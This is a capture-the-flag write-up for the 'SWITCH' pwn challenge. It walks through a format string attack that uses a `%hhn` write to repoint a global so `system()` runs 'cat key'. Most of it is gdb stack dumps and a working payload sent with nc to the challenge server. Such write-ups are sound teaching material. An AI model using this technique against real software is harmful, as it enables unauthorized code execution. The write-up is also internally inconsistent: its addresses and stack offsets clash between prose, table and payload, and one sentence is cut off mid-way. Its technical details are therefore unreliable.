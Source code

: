 ## SWITCH [140]

## Solution
`read()` up to `0x4f` (79) bytes from `stdin` into `buffer[]` in `main()`. There are two global variables (`char*` pointers) that point to strings in a string table in `.rodata`:
```
0x0804a030   char* not_used      "cat key"                @ 0x08048620 in .rodata
0x0804a034   char* used          "echo no key for you"    @ 0x08048628 in .rodata
```

By default, `used` is copied to `arg` (another global variable), which is then passed as an argument to `system()`. Our goal is to switch the value of `used` from `0x08048628` to `0x08048620` so that it points to "cat key" and we will be able to read the key once `system()` is called. To do this, we will use a format string attack in `printf()` since it is called with a format string but no other arguments. If we break just before the call to `printf()`, we can see how the stack looks and build our format string:
```
ameise@STAHLKERN:~/CS2015/pwn/140_SWITCH$ gdb ./switch 
Reading symbols from ./switch...(no debugging symbols found)...done.
(gdb) break *08048565
Invalid number "08048565".
(gdb) break *0x08048565
Breakpoint 1 at 0x8048565
(gdb) run
Starting program: /home/ameise/CS2015/pwn/140_SWITCH/switch 
State your case.
aaaabbbbccccdddd

Breakpoint 1, 0x08048565 in main ()
(gdb) x/64xw $esp
0xffffce70:	0xffffce8c	0xffffce8c	0x0000004f	0x00000000
0xffffce80:	0xf7ffd000	0xf7ffd918	0xffffcea0	0x61616161
0xffffce90:	0x62626262	0x63636363	0x64646464	0x0000000a
0xffffcea0:	0xffffffff	0x0000002f	0xf7e0ddc8	0xf7fd5858
0xffffceb0:	0x00008000	0xf7fb3000	0xf7fb1244	0xf7e190ec
0xffffcec0:	0x00000001	0x00000007	0xf7e2fa30	0x080485eb
[...]
```

The stack variables can be `$` referenced as follows:
```
0$   0xffffce8c ---+ address of format string
1$   0xffffce8c    |
2$   0x0000004f    |
3$   0x00000000    |
4$   0xf7ffd000    |
5$   0xf7ffd918    |
6$   0xffffcea0    |
7$   0x61616161 <--+
8$   0x62626262
9$   0x63636363
10$  0x64646464
11$  0x0000000a
12$  0xffffffff
13$  0x0000002f
14$  0xf7e0ddc8
15$  0xf7fd5858
[...]
```

We need to write an exact amount of bytes so that we can use a `%n` format specifier to overwrite the value of `used` at `0x0804a034` to `0x0806a020` instead of `0x0804a028`. Luckily, only the last byte is different, so we can just use a `%hhn` format specifier to only overwrite the first byte from `0x28` to `0x20` (the lowest-order byte will be first in memory due to little-endianness.) However, since it will be difficult to Let's stick the address of `used` at stack variable `11$` to ensure we have enough room for the first part of the format string:
```
```
0$   0xffffce8c ---+ address of format string
1$   0xffffce8c    |
2$   0x0000004f    |
3$   0x00000000    |
4$   0xf7ffd000    |
5$   0xf7ffd918    |
6$   0xffffcea0    |
7$   0x61616161 <--+   '%'  '0'  '3'  '2'
8$   0x62626262        'x'  '%'  '1'  '0'
9$   0x63636363        '$'  'h'  'h'  'n'
10$  0x64646464        'x40''xa0''x04''x08'
11$  0x0000000a        'b'  'b'  'b'  'b'
12$  0xffffffff
13$  0x0000002f
14$  0xf7e0ddc8
15$  0xf7fd5858
[...]
```

Now we can build our format string and get the key:
```
ameise@STAHLKERN:~/CS2015/pwn/140_SWITCH$ python -c 'print "%032x%10$hhn\x40\xa0\x04\x08"' | nc shell.cyberstakesonline.com 10992
State your case.
66a6b930461e95bf01d1adf484761984
000000000000000000000000ffffdbac@�
```